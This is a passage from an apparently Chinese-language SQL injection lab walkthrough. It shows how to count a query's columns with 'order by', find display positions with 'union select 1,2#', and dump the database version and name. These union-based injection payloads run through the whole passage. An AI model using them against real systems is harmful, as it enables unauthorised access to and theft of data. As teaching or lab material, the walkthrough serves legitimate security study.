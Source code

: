 *　1' order by 2#：

![image-20220726163318738](assets/image-20220726163318738.png)

*　1' order by 3#：　报错，说明只有两列

![image-20220726163516932](assets/image-20220726163516932.png)

**由此判断，SQL语句查询的表的字段数是2**

**3、确定显示位置：SQL查询语句之后的回显位置**

- 1' union select 1# ：　报错：The used SELECT statements have a different number of columns
- 1' union select 1,2#  ：　有两个回显

![image-20220726163647841](assets/image-20220726163647841.png)

**4、查询当前的数据库版本，暴库**

1' union select version(),database()#
